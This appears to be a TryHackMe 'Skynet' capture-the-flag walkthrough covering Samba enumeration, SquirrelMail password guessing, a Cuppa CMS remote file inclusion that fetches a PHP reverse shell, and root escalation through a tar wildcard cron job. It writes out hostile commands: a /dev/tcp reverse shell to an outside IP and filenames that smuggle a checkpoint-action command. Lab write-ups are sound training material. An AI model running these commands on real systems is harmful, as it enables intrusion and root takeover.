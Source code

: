 We begin with an autorecon scan, followed by an nmap scan.
 
![1422fa228645db8325993638401f751d.png](/Skynet/_resources/1422fa228645db8325993638401f751d.png)

![40c6a4e5aa7e17de9c78db3393f2b60f.png](/Skynet/_resources/40c6a4e5aa7e17de9c78db3393f2b60f.png)

![f82c683fe31af33de7f187e50d37a5e5.png](/Skynet/_resources/f82c683fe31af33de7f187e50d37a5e5.png)
 
Let's take a look at the web server. We run gobuster to check for any interesting directories; we can also check the feroxbuster output given by autorecon.

```bash
gobuster dir -u http://10.10.104.171 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o /home/kali/Documents/THM/Skynet/gobuster.txt -x .php,.txt,.html
```

We see that the machine is hosting Squirrelmail at `/squirrelmail`; we might be able to use this later to access a user's emails.
 
![1b14df4dcf59de842b8a36581a8dc679.png](/Skynet/_resources/1b14df4dcf59de842b8a36581a8dc679.png)
 
We also saw that Samba is running on ports 139 and 445. Let's enumerate it. Luckily, autorecon already did this for us.

```txt
ORT    STATE SERVICE     REASON         VERSION
139/tcp open  netbios-ssn syn-ack ttl 61 Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: SKYNET

Host script results:
|_smb-vuln-ms10-061: false
| smb-enum-sessions: 
|_  <nobody>
|_smb-system-info: ERROR: Script execution failed (use -d to debug)
| smb-ls: Volume \\10.10.104.171\anonymous
| SIZE   TIME                 FILENAME
| <DIR>  2020-11-26T16:04:00  .
| <DIR>  2019-09-17T07:20:17  ..
| 163    2019-09-18T03:04:59  attention.txt
| <DIR>  2019-09-18T04:42:16  logs
| 0      2019-09-18T04:42:13  logs\log2.txt
| 471    2019-09-18T04:41:59  logs\log1.txt
| 0      2019-09-18T04:42:16  logs\log3.txt
```

Autorecon also gave us information about the share permissions and the share contents.

```txt
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	NO ACCESS	Printer Drivers
	anonymous                                         	READ ONLY	Skynet Anonymous Share
	milesdyson                                        	NO ACCESS	Miles Dyson Personal Share
	IPC$                                              	NO ACCESS	IPC Service (skynet server (Samba, Ubuntu))
```

```txt
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	NO ACCESS	Printer Drivers
	anonymous                                         	READ ONLY	Skynet Anonymous Share
	.\anonymous\*
	dr--r--r--                0 Thu Nov 26 11:04:00 2020	.
	dr--r--r--                0 Tue Sep 17 03:20:17 2019	..
	fr--r--r--              163 Tue Sep 17 23:04:59 2019	attention.txt
	dr--r--r--                0 Wed Sep 18 00:42:16 2019	logs
	.\anonymous\logs\*
	dr--r--r--                0 Wed Sep 18 00:42:16 2019	.
	dr--r--r--                0 Thu Nov 26 11:04:00 2020	..
	fr--r--r--                0 Wed Sep 18 00:42:13 2019	log2.txt
	fr--r--r--              471 Wed Sep 18 00:41:59 2019	log1.txt
	fr--r--r--                0 Wed Sep 18 00:42:16 2019	log3.txt
	milesdyson                                        	NO ACCESS	Miles Dyson Personal Share
	IPC$                                              	NO ACCESS	IPC Service (skynet server (Samba, Ubuntu))
```

We can also use enum4linux to enumerate the Samba shares. (Autorecon does this, too, by the way.)

Let's access the Samba shares using `smbclient //10.10.104.171/anonymous`. Note that this is the only share which we have access to. We press enter when prompted to input a password, and then we are granted access. Looking around, we find a file called `attention.txt` (which we saw earlier in the enum4linux/autorecon output). Use `get attention.txt` to transfer the file to our local machine. We see that it contains an announcement concerning employee passwords.
 
![2d8ca1999c93a2dcaa1a2aceb815d4eb.png](/Skynet/_resources/2d8ca1999c93a2dcaa1a2aceb815d4eb.png)
 
In the same directory containing the `attention.txt` file, we find another directory called `logs` which contains three log files.
 
![7f55dcc4f282c841915286f36393fffa.png](/Skynet/_resources/7f55dcc4f282c841915286f36393fffa.png)
 
`log2.txt` and `log3.txt` are empty, but `log1.txt` contains a list of (presumably) passwords. Since we already know a potential point of entry (via Squirrelmail), so let's try to bruteforce milesdyson's password using the list we just found. We could use Hydra to do this; since the password list is relatively short, we'll just do this manually. Luckily, I didn't have to get very far into the list before I got a hit.
 
![912fe309cec3cd634b655fb75bb27594.png](/Skynet/_resources/912fe309cec3cd634b655fb75bb27594.png)
 
Let's look around. It doesn't take long before we find milesdyson's password.
 
![16a7c62d4f22fd5ae4e4c90f8262470b.png](/Skynet/_resources/16a7c62d4f22fd5ae4e4c90f8262470b.png)
 
We now have access to the milesdyson share. We log in as milesdyson using the password we just found, using the command `smbclient //10.10.104.171/milesdyson -U milesdyson`. We look around for some interesting files.
 
![1e923d703bb3ab21b7f2b7f9def09882.png](/Skynet/_resources/1e923d703bb3ab21b7f2b7f9def09882.png)

![e48e982ec44ff98c798394186b21c546.png](/Skynet/_resources/e48e982ec44ff98c798394186b21c546.png)
 
Among the various notes on AI and pandas, we find the aptly-named `important.txt`. We copy this file to our location machine and read it. Item 1 contains a what appears to be a directory. (Admittedly, I knew I was looking for a directory thanks to the THM question prompt. It doesn't look like a standard directory, so maybe it's not so obvious.)
 
![c3b68ae0b09efa332f46e132680b23a4.png](/Skynet/_resources/c3b68ae0b09efa332f46e132680b23a4.png)
 
Navigating to this hidden directory, we find Miles' personal page.
 
![cb3142c091b6dcef0fb486692ba41005.png](/Skynet/_resources/cb3142c091b6dcef0fb486692ba41005.png)
 
We can run gobuster again to check for any subdirectories.
```bash
gobuster dir -u http://10.10.104.171/<hidden directory>/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Eventually we find that `/administrator` is a valid subdirectory. Navigating to this page leads to a Cuppa login form.
 
![595a787c143a76469032bd42891a427a.png](/Skynet/_resources/595a787c143a76469032bd42891a427a.png)
 
<br>

# Exploitation

At this point, we have access to a hidden subdirectory containing a Cuppa login form. We don't have much to go on, but a quick searchsploit search for Cuppa shows the existence of a [remote file inclusion](https://book.hacktricks.xyz/pentesting-web/file-inclusion) exploit.
 
![7625f4004a5627aa9cdd25797e853595.png](/Skynet/_resources/7625f4004a5627aa9cdd25797e853595.png)
 
We'll use the exploit from [exploit-db](https://www.exploit-db.com/exploits/25971). To use it, we simply append `/alerts/alertConfigField.php?urlConfig=<path to file>` to the current url (where we found the login page). For instance, we can view the `/etc/passwd` file by navigating to `/alerts/alertConfigField.php?urlConfig=/Skynet//Skynet//Skynet//Skynet/../etc/passwd`. However, what we would like to do is set up a reverse shell using this method.

Set up a netcat lister with `rlwrap nc -lvnp 9999`. Download and modify [Pentestmonkey's php reverse shell script](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), host it on an http server with `python3 -m http.server,` and use the above exploit to navigate to `/alerts/alertConfigField.php?urlConfig=http://10.6.30.43:8000/php-reverse-shell.php`. After a short while, the target machine completes the request, download the reverse shell php script, and we obtain a reverse shell.
 
![c805141dd6b0c16cf4845b1bb05e7171.png](/Skynet/_resources/c805141dd6b0c16cf4845b1bb05e7171.png)
 
<br>

# Post-exploitation

Now that we have initial access to the system, we can begin looking for flags. With our current privileges, easily find the `user.txt` flag in Miles' home directory.
 
![4856ecb521d0dcd629bcad974e2dbb62.png](/Skynet/_resources/4856ecb521d0dcd629bcad974e2dbb62.png)
 
It remains to find the root flag. Let's go ahead and upgrade our shell with `python -c 'import pty; pty.spawn("/bin/bash")` for convenience. We will use LinPEAS to search for possible privesc avenues. We'll host a web server on our local machine in order to download `linpeas.sh` with `wget`; here, we'll want to save the file to the `/tmp` directory since we have write permissions there. Now use `chmod +x linpeas.sh` to make the file executable, and run it with `./linpeas.sh`. 

There are a few ways we can proceed from here, but we'll focus on looking at cronjobs. One interesting scheduled process sticks out.
 
![205bd8e761c33f959206f27942aaefae.png](/Skynet/_resources/205bd8e761c33f959206f27942aaefae.png)

![39aa328167e5abfbc3ec9158cbde5ac8.png](/Skynet/_resources/39aa328167e5abfbc3ec9158cbde5ac8.png)
 
We could try editing the `backup.sh`, but unfortunately we don't have write permissions. Let's look at the contents.
 
![93e4f30926ea59f72b46ccb80bad439a.png](/Skynet/_resources/93e4f30926ea59f72b46ccb80bad439a.png)
 
So, whenever this script runs, it moves into the `/var/www/html` directory and uses `tar` to compress the contents of the directory into a file in Miles' backups directory. Note that the script executes every minute, and it runs with root privileges.

If we look up the tar binary on [GTFOBins](https://gtfobins.github.io/gtfobins/tar/), we see that we can use it to spawn a new shell with root privileges. We need to use the following sequence of commands to add the relevant options before we can spawn the shell.

```bash
printf '#!/bin/bash\nbash -i >& /dev/tcp/10.8.50.72/6666 0>&1' > /var/www/html/shell
chmod +x /var/www/html/shell
touch /var/www/html/--checkpoint=1
touch /var/www/html/--checkpoint-action=exec=bash\ shell
```

Navigating to `/var/www/html`, we verify that all requires files are in the right place.
 
![e6f6c3f0e63acc1605ec8f7525027d77.png](/Skynet/_resources/e6f6c3f0e63acc1605ec8f7525027d77.png)
 
Now set up a netcat listener on a different port and run the following command to catch the reverse shell.

```bash
tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

A quick search reveals the location of the `root.txt` flag.
 
![cf10e8a25a88a3c4e39d55b903d95fe2.png](/Skynet/_resources/cf10e8a25a88a3c4e39d55b903d95fe2.png)

![e57d9a5902ba8f9eff3a0df207d4fb7b.png](/Skynet/_resources/e57d9a5902ba8f9eff3a0df207d4fb7b.png)